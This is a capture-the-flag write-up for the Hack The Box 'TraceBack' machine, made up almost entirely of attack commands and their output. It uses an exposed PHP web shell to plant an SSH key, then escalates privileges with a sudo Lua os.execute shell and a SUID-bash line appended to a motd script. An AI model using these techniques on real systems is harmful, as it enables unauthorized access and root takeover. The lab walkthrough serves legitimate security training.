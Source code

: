 # Target
| Category          | Details                                                    |
|-------------------|------------------------------------------------------------|
| 📝 **Name**       | [TraceBack](https://app.hackthebox.com/machines/TraceBack) |  
| 🏷 **Type**       | HTB Machine                                                |
| 🖥️ **OS**        | Linux                                                      |
| 🎯 **Difficulty** | Easy                                                       |

# Scan
```
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 96:25:51:8e:6c:83:07:48:ce:11:4b:1f:e5:6d:8a:28 (RSA)
|   256 54:bd:46:71:14:bd:b2:42:a1:b6:b0:2d:94:14:3b:0d (ECDSA)
|_  256 4d:c3:f8:52:b8:85:ec:9c:3e:4d:57:2c:4a:82:fd:86 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Help us
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 25.16 seconds
```

# Attack path
1. [Gain foothold by uploading SSH RSA key over exposed web shell](#gain-foothold-by-uploading-ssh-rsa-key-over-exposed-web-shell)
2. [Escalate to `sysadmin` user with LUA script executed with `sudo`](#escalate-to-sysadmin-user-with-lua-script-executed-with-sudo)
3. [Escalate to `root` user with root shell created in `/etc/update-motd.d/00-header`](#escalate-to-root-user-with-root-shell-created-in-etcupdate-motdd00-header)

### Gain foothold by uploading SSH RSA key over exposed web shell

#### Identify `SmEvK_PaThAn` web shell
HTML code of defaced page, `<!--Some of the best web shells that you might need ;)-->`, suggest web shell available.

```
┌──(magicrc㉿perun)-[~/attack/HTB TraceBack]
└─$ curl -I http://$TARGET/smevk.php
HTTP/1.1 200 OK
Date: Sun, 11 May 2025 10:02:07 GMT
Server: Apache/2.4.29 (Ubuntu)
Set-Cookie: PHPSESSID=ljpnkles31ol3a999ntpeq1lob; path=/
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Type: text/html; charset=UTF-8
```

#### Generate RSA key pair
```
┌──(magicrc㉿perun)-[~/attack/HTB TraceBack]
└─$ ssh-keygen -t rsa -b 4096 -f id_rsa
Generating public/private rsa key pair.
Enter passphrase for "id_rsa" (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in id_rsa
Your public key has been saved in id_rsa.pub
The key fingerprint is:
SHA256:on6KOOSdYl77YMTXtnmYsfpFwgIv8N92bUf2ghw6hgQ magicrc@perun
The key's randomart image is:
+---[RSA 4096]----+
|                 |
|                 |
| . . E           |
|  + o +          |
|   = +.BS. . o   |
| .. +.=.@ + = .  |
|o .+o. X B = o . |
|.=o=o + = o . .  |
|+oo.+=..         |
+----[SHA256]-----+
```

#### Upload `is_rsa.pub` with web shell
```
┌──(magicrc㉿perun)-[~/attack/HTB TraceBack]
└─$ cp id_rsa.pub authorized_keys
curl -s -c cookies.txt http://$TARGET/smevk.php -d 'uname=admin&pass=admin' -o /dev/null && \
curl -s -b cookies.txt http://$TARGET/smevk.php -F "f=@authorized_keys;type=text/plain" -F "a=FilesMan" -F "c=/home/webadmin/.ssh/" -F "p1=uploadFile" -F "charset=UTF8" -F "filename=authorized_keys" -o /dev/null
```

#### Gain access over SSH using forged key
```
┌──(magicrc㉿perun)-[~/attack/HTB TraceBack]
└─$ ssh -i id_rsa webadmin@$TARGET
#################################
-------- OWNED BY XH4H  ---------
- I guess stuff could have been configured better ^^ -
#################################

Welcome to Xh4H land 



Last login: Sun May 11 03:42:03 2025 from 10.10.14.161
webadmin@traceback:~$ id
uid=1000(webadmin) gid=1000(webadmin) groups=1000(webadmin),24(cdrom),30(dip),46(plugdev),111(lpadmin),112(sambashare)
```

### Escalate to `sysadmin` user with LUA script executed with `sudo`
```
webadmin@traceback:~$ echo 'os.execute("/bin/sh")' > "pe.lua" && \
sudo -u sysadmin /home/sysadmin/luvit pe.lua
$ id
uid=1001(sysadmin) gid=1001(sysadmin) groups=1001(sysadmin)
```

### Escalate to `root` user with root shell created in `/etc/update-motd.d/00-header`

#### Add root shell creation to `/etc/update-motd.d/00-header`
```
$ echo "/bin/cp /bin/bash /tmp/root_shell; /bin/chmod +s /tmp/root_shell" >> /etc/update-motd.d/00-header
```

#### Login as `webadmin` over SSH to generate root shell
```
┌──(magicrc㉿perun)-[~/attack/HTB TraceBack]
└─$ ssh -i id_rsa webadmin@$TARGET
#################################
-------- OWNED BY XH4H  ---------
- I guess stuff could have been configured better ^^ -
#################################

Welcome to Xh4H land 



Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Sun May 11 04:06:56 2025 from 10.10.14.161
webadmin@traceback:~$ ls -la /tmp/root_shell
-rwsr-sr-x 1 root root 1113504 May 11 04:06 /tmp/root_shell
```

#### Execute root shell
```
webadmin@traceback:~$ /tmp/root_shell -p
root_shell-4.4# id
uid=1000(webadmin) gid=1000(webadmin) euid=0(root) egid=0(root) groups=0(root),24(cdrom),30(dip),46(plugdev),111(lpadmin),112(sambashare),1000(webadmin)
```